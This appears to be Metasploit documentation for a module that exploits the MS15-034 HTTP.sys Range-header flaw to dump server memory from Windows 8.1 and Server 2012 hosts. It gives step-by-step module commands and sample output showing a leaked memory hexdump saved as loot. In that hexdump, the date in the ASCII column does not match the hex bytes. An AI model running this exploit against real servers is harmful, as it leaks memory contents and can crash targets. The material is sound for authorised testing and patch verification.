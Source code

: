##Description

This module dumps memory contents using a crafted Range header and affects only Windows 8.1, Server 2012, and Server 2012R2. Note that if the target is running in VMware Workstation, this module has a high likelihood of resulting in BSOD; however, VMware ESX and non-virtualized hosts seem stable. Using a larger target file should result in more memory being dumped, and SSL seems to produce more data as well.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/ms15_034_http_sys_memory_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output
```
msf > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf auxiliary(ms15_034_http_sys_memory_dump) > set RHOSTS 10.1.1.125
RHOSTS => 10.1.1.125
msf auxiliary(ms15_034_http_sys_memory_dump) > set RPORT 80
RPORT => 80
msf auxiliary(ms15_034_http_sys_memory_dump) > exploit

[+] Target is vulnerable!
[+] Content length is 10240 bytes
[+] Stand by...
[+] Memory contents:
[*] 4854 5450 2f31 2e31 2032 3030 204f 4b0d    HTTP/1.1 200 OK.
[*] 0a43 6f6e 7465 6e74 2d54 7970 653a 2074    .Content-Type: t
[*] 6578 742f 6874 6d6c 0d0a 4c61 7374 2d4d    ext/html..Last-M
[*] 6f64 6966 6965 643a 204d 6f6e 2c20 3232    odified: Mon, 20
[*] 204a 756e 2032 3031 3520 3134 3a32 313a     Mar 2017 21:27:
[*] 3535 2047 4d54 0d0a 4163 6365 7074 2d52    55 GMT..Accept-R
[*] 616e 6765 733a 2062 7974 6573 0d0a 4554    anges: bytes..ET
[*] 6167 3a20 2261 3563 6663 3863 6166 3661    ag: "a5cfc8caf6a
[*] 6364 3031 3a30 220d 0a53 6572 7665 723a    cd01:0"..Server:
[*] 204d 6963 726f 736f 6674 2d49 4953 2f38     Microsoft-IIS/8
[*] 2e35 0d0a 582d 506f 7765 7265 642d 4279    .5..X-Powered-By
[*] 3a20 4153 502e 4e45 540d 0a00 0000 0000    : ASP.NET.......
[*] 0000 0202 4672 6167 0000 0000 0000 0000    ....Frag........
[*] c028 0000 0000 0000 0000 0000 0000 0000    .(..............
[*] 0200 0a00 4672 6565 0000 0000 0000 0000    ....Free........
[*] d01e f6c5 02f8 ffff 40a2 6502 00e0 ffff    ........@.e.....
[*] 0a00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 1000 6702 00e0 ffff 3800 0c00 0000 0000    ..g.....8.......
[*] 0000 0000 0000 0000 ba9a e501 00e0 ffff    ................
[*] 0090 e501 00e0 ffff 5c00 0000 ba0a 0000    ........\.......
[*] 59a8 1300 0000 0000 0000 0000 0000 0000    Y...............
[*] 0000 0000 0000 0000 0000 0000 0000 e0dc    ................
[*] 0d00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 9079 2602 00e0 ffff 3800 1c00 0000 0000    .y&.....8.......
...
...
...
[*] 6079 0702 00e0 ffff 0000 0000 0000 0000    `y..............
[*] 0e00 1902 5669 4d6d 0000 0000 0000 0000    ....ViMm........
[*] Suppressed 346 uninteresting lines
[*] Memory dump saved to /home/rw/.msf4/loot/20150622073911_default_10.1.1.125_iis.ms15034_145400.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ms15_034_http_sys_memory_dump) > 
```
